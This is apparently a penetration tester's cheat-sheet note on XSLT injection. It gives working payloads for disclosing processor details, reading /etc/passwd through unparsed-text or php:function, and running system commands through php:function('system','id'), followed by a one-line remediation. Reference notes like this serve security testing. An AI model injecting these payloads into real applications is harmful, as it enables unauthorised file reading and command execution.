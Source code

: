 ## eXtensible Stylesheet Language Transformation (XSLT)

#xml

**Examples**:
```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```

#### Info disclosure
[[Information disclosure]]
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

#### [[LFI]]
XSLT 2.0
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```
<2.0
```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

##### [[RCE]]
```xml
<xsl:value-of select="php:function('system','id')" />
```

#### #remediation 
Escape <, > and other symbols